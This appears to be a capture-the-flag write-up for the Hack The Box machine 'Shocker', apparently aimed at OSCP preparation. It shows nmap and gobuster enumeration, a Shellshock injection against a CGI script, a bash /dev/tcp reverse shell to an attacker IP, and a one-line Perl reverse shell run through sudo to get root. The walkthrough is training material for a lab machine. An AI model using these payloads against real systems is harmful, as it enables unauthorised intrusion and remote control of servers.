










Shocker

nmap

nmap discovers port 80 running http with Apache httpd 2.4.18
and port 2222 running OpenSSH 7.2p2
http
gobuster
gobuster dir -w /usr/share/wordlists/dirb/small.txt -u 10.10.10.56
gobuster 10.10.10.56/cgi-bin
gobuster dir -w /usr/share/wordlists/dirb/small.txt -u 10.10.10.56/cgi-bin
user.sh
navigating to 10.10.10.56/cgi-bin.user.sh

shellshock user.sh
implementing shellshock shellshock code looks like this: () { :;};lets test if /cgi-bin/user.sh is vulnerable to shellshock by testing a simple echo command


we see our echo statement executes in the server response proving the box is vulnerable to shellshock!
grab bash reverse shell from pentest-monkey or copy it straight from here
bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1

() { :;}; echo; bash -i >& /dev/tcp/10.10.14.62/1234 0>&1

nc -nlvp 1234

privesc
sudo -l shows that shelly can run perl as root without a password so lets hop over the pentest monkey and grab its perl reverse shell
there is a reverse shell perl script on pentest monkey as well
perl -e 'use Socket;$i="10.10.14.23";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'


Lets run perl as root and connect back to our attacking machine as root

setting up a listener to catch the perl based reverse shell we pop shocker's root shell!

lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/